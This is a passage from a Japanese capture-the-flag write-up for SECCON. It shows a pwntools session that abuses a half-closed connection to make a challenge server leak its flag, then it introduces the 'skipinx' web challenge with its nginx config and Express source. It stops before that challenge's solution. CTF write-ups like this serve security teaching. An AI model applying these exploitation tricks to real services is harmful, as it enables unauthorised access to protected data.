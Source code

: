 (⁎'~') < python3
>>> from pwn import *
>>> s = remote("find-flag.seccon.games", 10042)
[x] Opening connection to find-flag.seccon.games on port 10042
[x] Opening connection to find-flag.seccon.games on port 10042: Trying 153.125.145.62
[+] Opening connection to find-flag.seccon.games on port 10042: Done
>>> s.shutdown("send")
>>> print(s.recvall().decode())
[x] Receiving all data
[x] Receiving all data: 0B
[x] Receiving all data: 99B
[*] Closed connection to find-flag.seccon.games port 10042
[+] Receiving all data: Done (99B)
filename: [-] something went wrong
[+] congrats!
SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}
```

----
# Web
## skipinx

nginxの設定をみると、リクエストに```&proxy=nginx```が追加されることがわかる。

```
server {
  listen 8080 default_server;
  server_name nginx;

  location / {
    set $args "${args}&proxy=nginx";
    proxy_pass http://web:3000;
  }
}
```

一方アプリ側ではクエリのproxyにnginxが含まれているとステータスコード400を返すようになっており、含まれていなければflagが表示される仕組みになっている。

```
const app = require("express")();

const FLAG = process.env.FLAG ?? "SECCON{dummy}";
const PORT = 3000;

app.get("/", (req, res) => {
  req.query.proxy.includes("nginx")
    ? res.status(400).send("Access here directly, not via nginx :(")
    : res.send(`Congratz! You got a flag: ${FLAG}`);
});

app.listen({ port: PORT, host: "0.0.0.0" }, () => {
  console.log(`Server listening at ${PORT}`);
});
